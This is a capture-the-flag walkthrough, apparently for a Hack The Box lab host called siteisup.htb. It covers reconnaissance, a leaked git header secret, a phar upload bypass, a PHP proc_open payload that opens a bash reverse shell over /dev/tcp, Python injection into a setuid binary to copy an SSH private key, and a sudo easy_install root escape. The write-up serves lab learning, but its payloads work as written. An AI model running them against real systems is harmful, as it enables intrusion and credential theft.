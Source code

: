 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Accessing siteisup.htb @80

Exploring Local Git dir

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header

```

Found another domain dev.siteisup.htb source code and another juicey information to access the domain 
It only access for developers Using coustom header "Special-Dev: only4dev"

Accessing dev.siteisup.htb

**FootHold**

Exploiting upload vulnerability and gain the shell but there has some fillters using to prevent to upload malicious file. we have only one way to upload a php file to gain code execution which is uploading a injected php code as phar file. Their is an another problem to gain shell the normal php shell command functions are disabled expect "proc_open" we get that info from "phpinfo" page 

Exploit using proc_open funtion

Reference [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docs/function.proc-open.php)


Payload 

```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```

My coustom python script for trigger the payload

req.py
```python
import requests
import re

header = {"Special-Dev": "only4dev"}
r = requests.get("http://dev.siteisup.htb/uploads/",headers=header)
md5 = re.findall(r'(?i)(?<![a-z0-9])[a-f0-9]{32}(?![a-z0-9])',r.text)

file_get = requests.get("http://dev.siteisup.htb/uploads/"+md5[1]+"/test.phar",headers=header)
print(file_get.text)

```

Escalating more privileged user

**www-data to user developer**

Home dir of the user developer has a coustom binary called siteisup which belongs with to a python script called siteisup_script.py and the binary has the setuid permission . Just run the binary and inject python system codes

Paylod for getting the developer ssh Key

```python
__import__("os")os.system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
**Privilege Escalation**

There is a Binary called  easy_install which has the permission running as superuser(Sudo)

Exploit 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
Reference [GtfoBin](https://gtfobins.github.io/gtfobins/easy_install/)



